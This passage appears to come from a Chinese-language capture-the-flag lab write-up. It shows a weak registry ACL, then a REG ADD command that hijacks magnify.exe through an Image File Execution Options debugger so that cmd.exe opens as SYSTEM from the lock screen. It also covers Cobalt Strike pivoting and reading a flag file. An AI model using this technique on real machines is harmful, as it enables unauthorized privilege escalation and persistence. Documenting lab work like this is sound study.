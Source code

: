 ```python
                          ssRule, System.Security.AccessControl.RegistryAccessRule, System.Security.AccessControl.Regis
                          tryAccessRule...}
Sddl                    : O:SYG:SYD:PAI(A;CIIO;KA;;;CO)(A;CI;CCDCLCSWRPRC;;;AU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CI;KR;;;B
                          U)(A;CI;KR;;;AC)
AccessToString          : CREATOR OWNER Allow  FullControl
                          NT AUTHORITY\Authenticated Users Allow  SetValue, CreateSubKey, ReadKey
                          NT AUTHORITY\SYSTEM Allow  FullControl
                          BUILTIN\Administrators Allow  FullControl
                          BUILTIN\Users Allow  ReadKey
                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
AuditToString           :
AccessRightType         : System.Security.AccessControl.RegistryRights
AccessRuleType          : System.Security.AccessControl.RegistryAccessRule
AuditRuleType           : System.Security.AccessControl.RegistryAuditRule
AreAccessRulesProtected : True
AreAuditRulesProtected  : False
AreAccessRulesCanonical : True
AreAuditRulesCanonical  : True
```

我们登录的人都可以修改注册表

```python
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe"
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754291006508-a4e3b3d0-41ed-465c-98bb-1b54d2718f79.png)

> **给 **`**<font style="background-color:rgba(129, 139, 152, 0.12);">magnify.exe</font>**`**设置了一个“调试器”,当用户或系统启动 magnify.exe 时，并不会真正启动放大镜程序，而是启动了 C:\windows\system32\cmd.exe**
>

放大镜提权

1. 先进入锁定界面
2. 然后点击图片中右下角图标
3. 选择发大镜
4. 触发进入 System 权限终端

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754291377800-d1a4d6af-e45f-450c-925c-c02ee0081b99.png)

为了方便命令执行

我们设置	CS 转发，在原来机子的基础上，访问内部网络

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1754293595044-31c15544-3f75-4efb-ad27-8534a8b16ab9.png)

但是不是很稳定，过个几分钟就会崩溃掉

也是拿到 flag2

```python
shell type C:\Users\Administrator\flag\flag02.txt
```
